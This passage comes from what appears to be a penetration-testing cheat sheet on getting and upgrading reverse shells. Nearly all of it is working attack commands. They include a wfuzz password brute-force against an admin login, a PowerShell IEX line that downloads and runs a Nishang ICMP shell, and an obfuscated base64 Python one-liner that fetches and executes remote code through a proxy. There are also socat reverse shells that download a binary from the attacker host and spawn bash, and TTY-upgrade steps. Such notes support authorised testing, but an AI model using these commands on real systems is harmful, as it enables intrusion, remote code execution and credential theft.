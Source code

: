 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```

<pre> python icmpsh_m.py [IP atacante] [IP victima] </pre>

<b> Client </b>

<pre>IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellIcmp.ps1'); Invoke-PowerShellIcmp -IPAddress [IP atacante]</pre>

![icmpreverseshell](https://user-images.githubusercontent.com/7115563/35213289-6ac51b00-ff5d-11e7-9b66-766af2aaf92e.png)

Reference: https://esgeeks.com/icmpsh-shell-reverse-con-icmp/


<a name="httpproxy"></a><h3> Reverse HTTP Shell through Proxy </h3>

<pre>use payload/python/meterpreter/reverse_http</pre>

![proxy2](https://user-images.githubusercontent.com/7115563/33836652-3d9c9624-de8a-11e7-9869-e18c5a28ebd7.png)


```python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHN5cwp2aT1zeXMudmVyc2lvbl9pbmZvCnVsPV9faW1wb3J0X18oezI6J3VybGxpYjInLDM6J3VybGxpYi5yZXF1ZXN0J31bdmlbMF1dLGZyb21saXN0PVsnYnVpbGRfb3BlbmVyJywnUHJveHlIYW5kbGVyJ10pCmhzPVtdCmhzLmFwcGVuZCh1bC5Qcm94eUhhbmRsZXIoeydodHRwJzonaHR0cDovLzE5Mi4xNjguMTA3LjIzMjo4MDgwJ30pKQpvPXVsLmJ1aWxkX29wZW5lcigqaHMpCm8uYWRkaGVhZGVycz1bKCdVc2VyLUFnZW50JywnTW96aWxsYS81LjAgKFdpbmRvd3MgTlQgNi4xOyBUcmlkZW50LzcuMDsgcnY6MTEuMCkgbGlrZSBHZWNrbycpXQpleGVjKG8ub3BlbignaHR0cDovLzE3OC42Mi41OC4zNTo4MC9qOTkzQScpLnJlYWQoKSkK')))"```

Finally we set up the handler:

![proxy3](https://user-images.githubusercontent.com/7115563/33836552-fd3204ac-de89-11e7-940c-71c8ab321bf7.png)


<a name="misc"></a><h2> Miscellaneous </h2>

<a name="interactiveshell"></a><h3> Interactive Reverse Shell </h3>

<b> Method 1 </b>

Attacker:

```socat file:`tty`,raw,echo=0 TCP-L:4444```

Victim:

```wget -q http://10.10.14.16/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.16:4444```

Socat Binary: https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat

<b> Method 2 </b>

In reverse shell

<pre>
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
</pre>

In kali

<pre>
echo $TERM
stty -a
stty raw -echo
fg
```